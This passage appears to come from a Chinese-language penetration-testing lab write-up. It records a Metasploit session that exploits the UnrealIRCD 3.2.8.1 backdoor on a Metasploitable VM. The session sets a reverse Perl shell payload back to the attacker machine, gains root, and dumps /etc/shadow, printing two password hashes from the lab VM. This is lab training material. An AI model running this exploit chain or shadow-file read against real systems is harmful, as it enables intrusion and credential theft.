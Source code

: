 ![4.3.1-扫描](https://raw.githubusercontent.com/BIIIANG/pic/main/202205081626957.png)

- 漏洞利用：

```shell
[4:19:24] xubiang:EXP1 $ msfconsole                                                
                                                  
...

msf6 > search unreal

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/linux/games/ut2004_secure           2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Linux)
   1  exploit/windows/games/ut2004_secure         2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Win32)
   2  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/unix/irc/unreal_ircd_3281_backdoor

msf6 > use unix/irc/unreal_ircd_3281_backdoor
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOST 192.168.43.38
RHOST => 192.168.43.38
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 192.168.43.98
LHOST => 192.168.43.98
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit

[*] Started reverse TCP handler on 192.168.43.98:4444 
[*] 192.168.43.38:6667 - Connected to 192.168.43.38:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Found your hostname (cached)
[*] 192.168.43.38:6667 - Sending backdoor command...
id
[*] Command shell session 1 opened (192.168.43.98:4444 -> 192.168.43.38:38145 ) at 2022-05-08 04:20:46 -0400

uid=0(root) gid=0(root)
cat /etc/shadow
root:$1$7DSzfpME$3a45316tWZF9TZWi48eub/:19107:0:99999:7:::
...
msfadmin:$1$FKo1UCia$KxgF2WmQNsKY2lC3nPp4n/:19107:0:99999:7:::
...
```
